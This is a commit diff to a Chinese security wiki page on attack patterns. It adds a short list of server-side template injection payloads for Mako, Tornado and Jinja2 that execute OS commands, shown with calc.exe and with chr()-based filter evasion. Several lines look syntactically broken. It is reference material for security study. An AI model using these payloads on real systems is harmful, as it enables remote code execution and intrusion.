

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 900 px high, scrolled down 20515 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -907,6 +907,28 @@ Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "test.sh;touch hack.txt"
 
 ## OGNL注入
 
+## 模板注入
+
+```
+Python
+Mako
+<%import os;os.system("calc.exe")%>
+Tornado
+{{__import__("os").system("calc.exe")}}
+jinja2(Flask)
+{{"xxx".__class__.__bases__[0].__subclasses()[436]("calc.exe")}}
+{{"xxx".__class__.__bases__.__getitem__(0).__subclasses().__getitem__(436).("calc.exe")}}
+{% if "xxx".__class__.__bases__.__getitem__(0).__subclasses().__getitem__(436).("calc.exe") %}{%endif%}
+{{[].__class__.__bases__[0].__subclasses()[436]("calc.exe")}}
+subprocess.Popen
+{% set chr =[].__class__.__bases__[0].__subclasses()[178].__init__.__globals__.__builtins__.chr %}{{[].__class__.__bases__[0].__subclasses()[436](chr(99)++chr(97)+chr(108)+chr(99))}}
+warnings.WarningMessage
+{{"xxx".[request.form.class].[request.arg.bases][0].[request.form.subclasses]()[436]("calc.exe")}}
+class:__class__
+bases:__bases__
+subclasses:__subclasses__
+```
+
 
 ## 上传
 
````
